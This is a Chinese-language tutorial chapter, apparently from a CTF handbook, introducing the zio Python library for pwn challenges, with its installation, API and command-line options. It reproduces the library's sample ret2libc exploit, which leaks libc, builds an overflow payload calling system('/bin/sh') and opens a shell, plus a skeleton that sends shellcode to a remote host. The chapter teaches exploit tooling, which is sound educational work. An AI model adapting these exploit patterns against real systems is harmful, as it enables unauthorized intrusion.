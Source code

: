 # 2.8 zio

- [zio 简介](#zio-简介)
- [安装](#安装)
- [使用方法](#使用方法)
- [zio 在 CTF 中的应用](#zio-在-ctf-中的应用)


## zio 简介
[zio](https://github.com/zTrix/zio) 是一个易用的 Python io 库，在 Pwn 题目中被广泛使用，zio 的主要目标是在 stdin/stdout 和 TCP socket io 之间提供统一的接口，所以当你在本地完成 利用开发后，使用 zio 可以很方便地将目标切换到远程服务器。

zio 的哲学：
```python
from zio import *

if you_are_debugging_local_server_binary:
    io = zio('./buggy-server')          # used for local pwning development
elif you_are_pwning_remote_server:
    io = zio(('1.2.3.4', 1337))         # used to exploit remote service

io.write(your_awesome_ropchain_or_shellcode)
# hey, we got an interactive shell!
io.interact()
```

官方示例：
```python
from zio import *
io = zio('./buggy-server')
# io = zio((pwn.server, 1337))

for i in xrange(1337):
    io.writeline('add ' + str(i))
    io.read_until('>>')

io.write("add TFpdp1gL4Qu4aVCHUF6AY5Gs7WKCoTYzPv49QSa\ninfo " + "A" * 49 + "\nshow\n")
io.read_until('A' * 49)
libc_base = l32(io.read(4)) - 0x1a9960
libc_system = libc_base + 0x3ea70
libc_binsh = libc_base + 0x15fcbf
payload = 'A' * 64 + l32(libc_system) + 'JJJJ' + l32(libc_binsh)
io.write('info ' + payload + "\nshow\nexit\n")
io.read_until(">>")
# We've got a shell;-)
io.interact()
```

需要注意的的是，zio 正在逐步被开发更活跃，功能更完善的 pwntools 取代，但如果你使用的是 32 位 Linux 系统，zio 可能是你唯一的选择。


## 安装
zio 仅支持 Linux 和 OSX，并基于 python 2.6, 2.7。
```
$ sudo pip2 install zio
```
`termcolor` 库是可选的，用于给输出上色：`$ sudo pip2 install termcolor`。


## 使用方法
由于没有文档，我们通过读源码来学习吧，不到两千行，很轻量，这也意味着你可以根据自己的需求很容易地进行修改。

总共导出了这些关键字：
```python
__all__ = ['stdout', 'log', 'l8', 'b8', 'l16', 'b16', 'l32', 'b32', 'l64', 'b64', 'zio', 'EOF', 'TIMEOUT', 'SOCKET', 'PROCESS', 'REPR', 'EVAL', 'HEX', 'UNHEX', 'BIN', 'UNBIN', 'RAW', 'NONE', 'COLORED', 'PIPE', 'TTY', 'TTY_RAW', 'cmdline']
```

zio 对象的初始化定义：
```python
def __init__(self, target, stdin = PIPE, stdout = TTY_RAW, print_read = RAW, print_write = RAW, timeout = 8, cwd = None, env = None, sighup = signal.SIG_DFL, write_delay = 0.05, ignorecase = False, debug = None):
```
通常可以这样：
```python
io = zio(target, timeout=10000, print_read=COLORED(RAW,'red'), print_write=COLORED(RAW,'green'))
```

内部函数很多，下面是常用的：
```python
def print_write(self, value):
def print_read(self, value):

def writeline(self, s = ''):
def write(self, s):
 
def read(self, size = None, timeout = -1):
def readlines(self, sizehint = -1):
def read_until(self, pattern_list, timeout = -1, searchwindowsize = None):
 
def gdb_hint(self, breakpoints = None, relative = None, extras = None):

def interact(self, escape_character=chr(29), input_filter = None, output_filter = None, raw_rw = True):
```
zio 里的 `read` 和 `write` 对应到 pwntools 里就是 `recv` 和 `send`。

另外是对字符的拆包解包，是对 struct 库的封装：
```python
>>> l32(0xdeedbeaf)
'\xaf\xbe\xed\xde'
>>> l32('\xaf\xbe\xed\xde')
3740122799
>>> hex(l32('\xaf\xbe\xed\xde'))
'0xdeedbeaf'

>>> hex(b64('ABCDEFGH'))
'0x4142434445464748'
>>> b64(0x4142434445464748)
'ABCDEFGH'
```
`l` 和 `b` 就是指小端序和大端序。这些函数可以对应 pwntools 里的 `p32()`，`p64()`等。

当然你也可以直接在命令行下使用它：
```
$ zio -h

usage:

    $ zio [options] cmdline | host port

options:

    -h, --help              help page, you are reading this now!
    -i, --stdin             tty|pipe, specify tty or pipe stdin, default to tty
    -o, --stdout            tty|pipe, specify tty or pipe stdout, default to tty
    -t, --timeout           integer seconds, specify timeout
    -r, --read              how to print out content read from child process, may be RAW(True), NONE(False), REPR, HEX
    -w, --write             how to print out content written to child process, may be RAW(True), NONE(False), REPR, HEX
    -a, --ahead             message to feed into stdin before interact
    -b, --before            don't do anything before reading those input
    -d, --decode            when in interact mode, this option can be used to specify decode function REPR/HEX to input raw hex bytes
    -l, --delay             write delay, time to wait before write
```


## zio 在 CTF 中的应用
何不把使用 pwntools 的写的 exp 换成 zio 试试呢xD。
